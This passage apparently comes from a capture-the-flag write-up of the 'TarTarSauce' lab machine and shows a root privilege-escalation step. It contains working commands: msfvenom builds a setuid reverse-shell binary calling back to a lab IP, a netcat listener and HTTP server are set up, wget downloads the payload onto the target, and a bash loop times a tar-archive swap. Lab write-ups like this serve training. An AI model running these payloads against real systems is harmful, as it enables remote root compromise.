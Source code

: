 ```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         PrependSetuid=true \
         -f elf \
         -o bubba.root.elf
sudo chown root:root bubba.root.elf
sudo chmod u+s bubba.root.elf
sudo chmod +x bubba.root.elf
mkdir -p var/www/html/
mv bubba.root.elf var/www/html/
tar -zcvf gump.tar var
nc -nvlp 7777
sudo python3 -m http.server 80
# run on target as onuma
wget -O /var/tmp/gump.tar 10.10.14.25/gump.tar
```

Now start the same Bash while loop waiting for the script to run:

```bash
BEFORE=$(ls -la /var/tmp)
while true; do
  AFTER=$(ls -la /var/tmp)
  CHECK=$(diff <(echo "$BEFORE" ) <(echo "$AFTER"))
  if [[ $CHECK ]]; then
    echo "$CHECK"
    break
  fi
  sleep 1
done
```

Then once the Bash while loop exits, copy over the new TAR payload as before and wait a few seconds for the `check` directory to appear. Then run the `bubba.root.elf` from the check directory:

![user10](./tartarsauce/user10.png)
